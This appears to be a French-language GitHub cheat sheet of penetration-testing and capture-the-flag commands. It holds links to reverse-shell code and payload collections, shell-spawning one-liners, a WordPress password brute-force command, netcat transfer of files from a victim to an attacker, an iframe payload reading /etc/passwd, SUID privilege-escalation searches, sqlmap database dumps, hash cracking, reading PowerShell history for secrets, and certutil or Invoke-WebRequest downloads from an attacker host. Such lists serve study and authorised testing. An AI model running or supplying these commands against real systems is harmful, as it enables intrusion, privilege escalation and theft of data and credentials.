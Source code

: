 ```
===========================================

_______________________________ /\ 
\_   ___ \__    ___/\_   _____/ )/______
/    \  \/ |    |    |    __)    /  ___/
\     \____|    |    |     \     \___ \ 
 \______  /|____|    \___  /    /____  >
        \/               \/          \/ 

============================================
```
# Énumeration

[ENUM] linPEAS : https://github.com/carlospolop/PEASS-ng/blob/master/linPEAS <br>
[ENUM] winPEAS : https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS/winPEASbat (.bat) <br>

# Objectif Reverse shell !

[SHELL] Netcat for windows : https://eternallybored.org/misc/netcat/netcat-win32-1.11.zip <br>
[SHELL] Hacker tools : https://addons.mozilla.org/en-US/firefox/addon/hacktools/ <br>
[SHELL] Reverse Shells : https://www.revshells.com/ <br>
[SHELL] Reverse shell php : https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php <br>

# Utiles

[MISC] subdomains.txt : https://raw.githubusercontent.com/danTaler/WordLists/master/Subdomain.txt <br>
[MISC] Bypass authentication : https://book.hacktricks.xyz/pentesting-web/nosql-injection#basic-authentication-bypass <br>
[MISC] PAYLOADSALLTHETHINGS : https://github.com/swisskyrepo/PayloadsAllTheThings (reverse shell, etc...) <br>
[MISC] Binaries exploit : https://gtfobins.github.io/ <br>


-------------------------------------------------------------------------------------------------------------------------------------------+
```
[+] => INFO GATHERING           - sudo -l
[+] => SPAWN SHELL USING PYTHON - python3 -c 'import pty; pty.spawn("/bin/sh")'
[+] => SPAWN SHELL USING BASH   - bash -i
[+] => WORDPRESS TOOL           - wpscan => ex (brute force mdp) wpscan --url 10.10.180.74/blog -U admin -P /usr/share/wordlists/rockyou.txt
[+] => TRANSFER FILE VIA NETCAT - [victime] nc -nv <ip> 1337 < <file_to_transfer> | [attacker] nc -lnvp 1337 > <file_to_transfer>
```
-------------------------------------------------------------------------------------------------------------------------------------------+
```
[CMD](JS)        => <iframe src=file:///etc/passwd></iframe>
[CMD](misconfig) => bash -p
[CMD](BINARIES)  => find / -user root -perm -4000 -exec ls -ldb {} \;
[CMD](ENUM)      => gobuster dir -u <url> -w=/usr/share/wordlists/dirb.../<list> -b <status_code_to_exclude>
[CMD](ENUM)      => nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse MACHINE_IP  (SAMBA)
                   smbclient //<ip>/anonymous (-U pour un utilisateurs)
                   smbget -R smb://<ip>/anonymous
[CMD](ENUM)      => ffuf -c -w /usr/share/wordlists/subdomains.txt -u http://domain.com/ -H "Host: FUZZ.domain.com" -fc 301
[CMD](list)      => msfvenom -l payloads | grep windows | grep reverse | grep shell  (exemple)
[CMD](decrypt)   => john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt  --format=<format>
[CMD](sql)       => sqlmap -r file.txt --dbms=mysql --dump | (après avoir copier une requête Burp dans un fichier txt)
[CMD](ftp)       => wget -m --no-passive ftp://anonymous:anonymous@<IP>  (download tout)

[RDP]            => xfreerdp /d:<domain> /u:'<user>' /p:'<password>' /v:<prefix>.<domain> /drive:.,kali-share +clipboard

[CMD](WIN)*PS*   => Invoke-WebRequest -Uri "http://<ip>:<port>/<file>" -Outfile <outfile>
[CMD](WIN)*PS*   => Expand-Archive <file.zip>
[CMD](WIN)*PS*   => type $Env:userprofile\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt (ou %userprofile% avec CMD)
[CMD](AD)*PS*    => Set-ADAccountPassword <user> -Reset -NewPassword (Read-Host -AsSecureString -Prompt 'New Password') -Verbose
[CMD](AD)*PS*    => Set-ADUser -ChangePasswordAtLogon $true -Identity <user> -Verbose

[CMD](WIN)*CMD*  => certutil.exe -urlcache -f http://<ip>:<port>/file.exe new_file.exe
```
-------------------------------------------------------------------------------------------------------------------------------------------+
<br>
[?] Using "-p" on an SUID file will run it with the permission of the owner. Ex if root own a file and you run it (non-root) using "-p" you will run it with root perm

